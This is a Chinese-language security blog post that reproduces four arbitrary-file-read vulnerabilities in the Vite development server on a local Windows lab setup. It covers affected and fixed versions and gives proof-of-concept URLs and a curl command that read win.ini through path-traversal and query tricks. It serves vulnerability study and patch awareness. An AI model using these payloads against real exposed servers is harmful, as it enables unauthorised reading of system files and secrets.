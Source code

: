 #  【漏洞复现】Vite 任意文件读取系列漏洞(附POC)   
原创 仇辉攻防  仇辉攻防   2025-04-13 07:46  
  
Vite是什么，和Next.js有什么区别？  
  
上一篇文章刚介绍了Next.js漏洞的复现：  
  
[【漏洞复现】Next.js中间件权限绕过漏洞 CVE-2025-29927](https://mp.weixin.qq.com/s?__biz=MzUyNTUyNTA5OQ==&mid=2247485165&idx=1&sn=6bf8e2894f9573d36bfc7203606b2150&scene=21#wechat_redirect)  
  
  
Vite 和 Next.js 是两个不同类型的前端工具，它们各自的用途、架构和适用场景有所不同。  
  
Vite 是什么？  
  
Vite 是一个现代前端构建工具，主要用于开发和打包前端项目（如 Vue、React 等）。它由 Vue 的作者 Evan You 开发，核心特点是快速启动、按需编译，并且基于 ES 模块（ESM）。  
  
Vite 的主要特点：  
1. 开发速度快：使用原生 ES 模块（ESM），避免了 Webpack 传统的打包后运行模式，大幅加快冷启动速度。  
  
1. 按需编译：只在代码变更时实时更新（HMR 热更新），而不是重新编译整个应用。  
  
1. 默认支持 Vue 和 React：内置支持 Vue、React、TypeScript 等，无需额外配置。  
  
1. 轻量 & 插件化：基于 Rollup 进行生产构建，可扩展性强。  
  
  
Vite 适用于构建前端 SPA（单页应用），并不包含服务端渲染（SSR）或全栈开发能力。  
  
如何使用Vite？  
```
https://cn.vite.dev/guide/
```  
  
漏洞环境搭建  
  
选择一个漏洞版本，使用如下命令安装（示例）  
  
#我的环境：windows+gitbash+npx  
```
npx create-vite@6.1.1 vulnerable-project
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7wWWNx9kFOjdYmnGMrEQRV2uYBBmbaicSQs6kZDDgq1lDHg5IkSo1aMQ/640?wx_fmt=png&from=appmsg "")  
  
安装完按照提示的命令进行  
```
 cd vulnerable-project
 npm install
 npm run dev
```  
  
安装完发现一个问题：版本不对，这是配置问题，如果不做固定，会默认安装更高版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7ZsqGGtyzwibgWu6ia32X4vUVXVHpHByB2dN6bxUggS6XQtN9QugDJ6yw/640?wx_fmt=png&from=appmsg "")  
  
如果没有发现版本问题，那么后续复现是出不来结果的    
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7lFuSmjTic9VET40N0gmWwWCqJvNFNYlcvIYaRsiaQzhiaqvXnVnIicbPRQ/640?wx_fmt=png&from=appmsg "")  
  
问题解决：在install命令之前通过修改package.json配置文件固定版本号  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7RJNV8DH6nfxRiabI1PibEKdGJIt256W36vvzyylOcicub7xD7RZqibZ09A/640?wx_fmt=png&from=appmsg "")  
  
删除前面的脱字符^即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7aSO0utlM6OtXhvJxp1RiaLibrMF40Ku2ZNQsiaQQCWKrvYTKBicG6jM5NA/640?wx_fmt=png&from=appmsg "")  
  
删掉整个文件夹重新来一遍（或者删掉lock文件，重新install，都行），版本处于漏洞版本，环境搭建成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o78qOwycxzjMgAVTJlDOiacVz61r5mmZgvyTsQ9s6AldPdy0KNdn4zuAQ/640?wx_fmt=png&from=appmsg "")  
## 漏洞复现  
  
Vite任意文件读取漏洞，最近披露了多个CVE，如  CVE-2025-30208、CVE-2025-31125、CVE-2025-31486 和  CVE-2025-32395，从3月14日开始基本上是挖一个，修一个，再挖再修，主要涉及开发服务器在特定配置下的任意文件读取问题。  
> Vite 作为一个现代前端构建工具，因其快速开发体验和高效构建能力而广受欢迎，但近期披露的多个安全漏洞引发了社区的关注。 Vite 团队的快速响应和透明披露受到认可。未来，Vite 团队可能需要加强开发服务器的安全设计，减少类似漏洞的发生。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7w40icZ3iac7Nq19NZX5szYTk844tsKYGE5eGj9M6ywVSXPAFPP0kPaIw/640?wx_fmt=png&from=appmsg "")  
### POC  
  
由于我是windows环境，因此本文仅仅以windows环境做演示，以下POC仅适用windows  
```
#CVE-2025-30208
http://localhost:5173/@fs/C://windows/win.ini?import&raw??
#CVE-2025-31125
http://localhost:5173/@fs/C://windows/win.ini?import&inline=1.wasm?init
#CVE-2025-31486
http://localhost:5173/@fs/C:/Users/Lenovo/vitetest/vulnerable-project/?/../../../../../windows/win.ini?import&?raw
#CVE-2025-32395
curl --request-target /@fs/Users/Lenovo/vitetest/vulnerable-project/#/../../../../../windows/win.ini http://localhost:5173
```  
### CVE-2025-30208  
###   
### 影响版本：  
- 6.2.0 <= Vite <= 6.2.2  
  
- 6.1.0 <= Vite <= 6.1.1  
  
- 6.0.0 <= Vite <= 6.0.11  
  
- 5.0.0 <= Vite <= 5.4.14  
  
- Vite <= 4.5.9  
  
使用漏洞范围内的版本6.2.2复现结果：成功读取任意文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7PW1OEStJXGxialERdnan0IkOMPd4dR8vB3CBQibRN5pdM7xbKPWk4rmg/640?wx_fmt=png&from=appmsg "")  
  
6.2.3版本修复 CVE-2025-30208   
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7ibibjmq2icyolLia8T5vRNiadTkUMTwxuYLVnVuHacHCGoArrHHlEHnCKmg/640?wx_fmt=png&from=appmsg "")  
### CVE-2025-31125  
###   
### 影响版本：  
- 6.2.0 <= Vite <= 6.2.3  
  
- 6.1.0 <= Vite <= 6.1.2  
  
- 6.0.0 <= Vite <= 6.0.12  
  
- 5.0.0 <= Vite <= 5.4.15  
  
- Vite <= 4.5.10  
  
使用6.2.3版本：成功读取任意文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7RJ3Ap2J5zlaMytoRIMytoibqUgwzctUAWJm4c8yywChZKDxicw7o9cVQ/640?wx_fmt=png&from=appmsg "")  
  
6.2.4版本修复 CVE-2025-31125  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7zazicKuNIgBKib87lFbs5BQ5kTkYLiaKdlYJAic0EagAicrCqE4zlgKgn0g/640?wx_fmt=png&from=appmsg "")  
### CVE-2025-31486  
###   
### 影响版本：  
- 6.2.0 <= Vite <= 6.2.4  
  
- 6.1.0 <= Vite <= 6.1.3  
  
- 6.0.0 <= Vite <= 6.0.13  
  
- 5.0.0 <= Vite <= 5.4.16  
  
- Vite <= 4.5.11  
  
使用6.2.4版本：成功读取任意文件   
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7uRbJBLHJTFm2dMl9ZFeVicrQdiczPjL1FluB3CRTnIUf5LaPeAq3iapcA/640?wx_fmt=png&from=appmsg "")  
  
6.2.5版本修复 CVE-2025-31486  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7JDmcl9NnoJoHaejL2sjPrh0F7gjCSIMgrjHafFXicM8xzXQWeUVWIlw/640?wx_fmt=png&from=appmsg "")  
### CVE-2025-32395  
###   
### 影响版本：  
- 6.2.0 <= Vite <= 6.2.5  
  
- 6.1.0 <= Vite <= 6.1.4  
  
- 6.0.0 <= Vite <= 6.0.14  
  
- 5.0.0 <= Vite <= 5.4.17  
  
- Vite <= 4.5.12  
  
使用6.2.5版本：成功读取任意文件    
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7NUzFcWxF6JQgcVG7VoNYBFdcpiae3x2ETbuSa0cAgYXKJ4iaxU8G6lkQ/640?wx_fmt=png&from=appmsg "")  
  
6.2.6版本修复 CVE-2025-32395  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFLfpMVOE8Fnljiaw7OuUU5o7OMuckkicL7AOEm0TBiciaCTPEcSB7TdN7ibs2HialOpE8SC92srayGI2CAw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
